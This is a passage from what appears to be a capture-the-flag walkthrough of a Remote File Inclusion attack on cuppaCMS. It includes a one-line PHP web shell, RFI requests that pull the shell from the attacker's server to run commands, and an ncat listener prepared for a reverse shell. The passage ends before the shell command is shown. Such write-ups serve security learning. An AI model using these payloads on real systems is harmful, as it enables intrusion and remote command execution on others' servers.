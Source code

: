 ## Exploitation
### Remote File Inclusion
I start the apache service and redirect a simple web shell to web root.

``` bash
root@kali:~$ systemctl start apache2.service 
root@kali:~$ echo "<?php passthru(\$_GET['cmd']); ?>" > /var/www/html/back.txt
```
Then I include the webshell that's hosted on my local server and we execute the command **id**, as  shown below:
``` bash
http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=id
```
![](/assets/images/bravery/screenshot-6.png)

We check if the tool **ncat** exists, in order to obtain an encrypted shell from the victim machine.

``` bash
http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=which%20ncat
```
![](/assets/images/bravery/screenshot-7.png)

**Getting a reverse shell**

We start a listener with **ncat** on port 443.
``` bash
root@kali:~$ nc -vlnp 443 --ssl
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B8AD 2215 76EA E761 6B75 9B68 FB2A 48B2 7067 4C38
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```
Then we execute with curl the following request that will establish a connection with the attacking machine and execute the linux bash.
